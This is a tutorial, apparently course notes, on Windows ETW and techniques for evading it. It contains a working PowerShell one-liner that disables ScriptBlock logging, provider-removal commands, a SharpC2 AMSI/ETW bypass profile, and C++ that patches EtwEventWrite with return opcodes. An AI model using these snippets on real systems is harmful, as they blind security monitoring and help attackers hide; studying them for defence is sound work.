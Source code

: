 Prerequisite:

- Knowledge of low-level application programming.
- Knowledge of Windows architecture

# What is ETW ? 


ETW  (Event Tracing for Windows) ETW will allow you to monitor events on a programmed application by storing user or kernel events in logs. It is possible to view these logs later or in real time. ETW is an integral part of the Windows Performance Toolkit (WPT), WPT is what contains most of the monitoring tools on Windows. ETW is also used for EDR deployment.

When a ETW Session is opened to listen events, all the events are stored in a file called Event Trace Log (ETL)

ETW API .NET : https://www.nuget.org/packages/Microsoft.Windows.EventTracing.Processing.All

ETW uses WPA and WPR to manage and present the events in a clean way. WPA (Windows Performance Analyzer) will consult the ETL files produced by the active applications (Provider) of an ETW session to create graphs and tables, so that the rendering is clean.

WPR (Windows Performance Recorder) acts as a session controller, it will start and stop the session and can select the ETW events to be recorded. WPRP files can be created to create custom profiles, in order to start ETW sessions by following very precise events.


![](https://media.discordapp.net/attachments/713142876241920000/936061596755701780/unknown.png?width=838&height=609)


[Creating Recording Profiles | Microsoft Documents](https://docs.microsoft.com/en-us/windows-hardware/test/wpt/authoring-recording-profiles)
[WPT Getting Started | Microsoft Documents](https://docs.microsoft.com/en-us/windows-hardware/test/wpt/wpt-getting-started-portal)
[Event Tracing - Win32 apps | Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/etw/event-tracing-portal)


### ETW Logman Enumeration :

Logman is a tool that allows windows users to see which ETW sessions are active as well as the providers of its logs.

Here you can see all active powershell providers like AMSI:

```powershell
PS> tasklist | findstr powershell
PS> logman query providers -pid <pid>
PS> logman query providers # here we will list all providers without exceptions
```
![](https://media.discordapp.net/attachments/713142876241920000/936061907746566234/unknown.png)

if you want to delete all active providers from the AutoLogger:
```powershell
PS> Remove-EtwTraceProvider -AutologgerName EventLog-Application -Guid {GUID}
```
An AutoLogger is a Trace Session that records provider events in kernel mode and user mode.

disable ETW (logging ScriptBlock) :
```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

to list all ETW sessions, run this command.
```powershell
PS> logman -ets
```

###### EVENT_ENABLE_PROPERTY_IGNORE_KEYWORD_0 :

```powershell
Set-EtwTraceProvider -Guid {GUID} -AutologgerName 'EventLog-Application' -Property 0x11
```

this allows not to display the events having the value KEYWORD 0

#### Attacks against ETW : 

different methods of attack against ETW :

![](https://media.discordapp.net/attachments/713142876241920000/936061629181861948/unknown.png?width=1319&height=609)

- __*red*__ : shows attacks on ETW from inside a malicious process.
- __*Light blue*__ : shows attacks on ETW by modifying environment variables, registry and files
- __*Orange*__ : shows attacks against ETW providers in user mode
- __*Dark blue*__ : shows attacks against ETW providers in kernel mode
- __*Violet*__ : shows attacks on ETW sessions.

The total number of possible attacks against ETW would be 36 but in this course we will only see the red, orange and light blue attacks.
Some offensive operations (Red Team) have used attack techniques against ETW, for example APT42 has disabled ETW, APT Slingshot has renamed ETLs to leave no trace and the lockerGoga ransomware has disabled ETW to bypass host-based sensors like HIDS, HIPS...


Some C2's have implemented ETW bypass functions, for example SharpC2 :
```apm
[drones] > interact a47153bd55 
[a47153bd55] > help 
Name           Description 
----           ----------- 
abort            Abort a running task 
back             Go back to the previous screen 
bypass           Set a directive to bypass AMSI/ETW on tasks 
cat              Read a file as text 
cd               Change working directory 
execute-assembly Execute a .NET assembly 
exit             Exit this Drone
```
once you have compromised the victim, you can interact with the drone, *bypass* Tells the drone whether or not it should attempt to bypass AMSI and/or ETW when executing post-exp commands. The drone uses the built-in MinHook.NET library to connect `amsi.dll!AmsiScanBuffer` and `ntdll.dll!EtwEventWrite`.

###### Post-Exploitation Custom C2Profile, Bypass AMSI/ETW :

SharpC2 uses C2 profiles to customize certain actions. Profiles are in YAML format and have 3 key/objects, Stage, PostExploitation and ProcessInjection.
```yaml
Stage: 
   SleepTime: 5 
   SleepJitter: 0 
   DllExport: Execute 
   SendStandardApi: true 
PostExploitation: 
   BypassAmsi: false 
   BypassEtw: false 
   SpawnTo: C:\Windows\System32\notepad.exe 
   AppDomain: SharpC2 
ProcessInjection: 
   Allocation: NtWriteVirtualMemory 
   Execution: RtlCreateUserThread
```

the **BypassAmsi/BypassEtw** values tell the drone whether or not it should attempt to bypass the AMSI and ETW during post-ex tasks.
can also be used at runtime with the bypass command.


###### ETW EtwEventWrite Patching :
![](https://media.discordapp.net/attachments/713142876241920000/936061204013649930/unknown.png)

we can do what we call Function patching with the RET instruction.

This code allows to disable the ETW event tracking in user-mode,
NTDLL is the most basic layer of User-Mode. NTDLL includes a large list of functions used for the proper functioning of Windows in different versions of microprocessor (x86, x64, wow64...). NTDLL includes the `EtwEventWrite` function.

The EtwEventWrite function is responsible for writing events to a session. Since *EtwEventWrite* works in user-mode, an attacker can bypass ETW. the function normally ends with `ret 0x14`.

since Event Tracking ends with `EtwEventWrite` to write events, if you rewrite the same assembly code at the beginning of the `EtwEventWrite()` function, no events will be recorded.

![](https://media.discordapp.net/attachments/713142876241920000/936061052997742634/unknown.png)

in this code above we get the address of the *EtwEventWrite* function from NTDLL and we modify the permissions of this memory segment with VirtualProtect() by defining the perms RWX (Read Write Exec)
and memcpy will be used to copy the opcode for a return to the buffer.


![](https://media.discordapp.net/attachments/713142876241920000/936061139421388810/unknown.png)

(64 bits)
you can see that the return value is `c3` (\xc3) and so `x48\x33\xc0` is the application of *XOR* on the *rax* register for all clear.


in the other opcode sequence (32 bits), `x33\xc0\xc2\x14\x00`, 
![](https://media.discordapp.net/attachments/713142876241920000/936062970167980053/unknown.png)

you can see that the return value is c21400 which is ``xc2\x14\x0`'' for ``ret 14h`' and ``x33\xc0`'' for *xor* the *EAX* register

we can also use the preprocessors `#ifdef`, `#else`, `#endif` if we want to adapt the opcode according to the versions.
```cpp
#ifdef _WIN64
        memcpy(addr, "\x48\x33\xc0\xc3", 4); // xor rax, rax; ret
#else
        memcpy(addr, "\x33\xc0\xc2\x14\x00", 5); // xor eax, eax; ret 14
#endif
```

results:

![](https://media.discordapp.net/attachments/713142876241920000/936060824869539950/unknown.png)
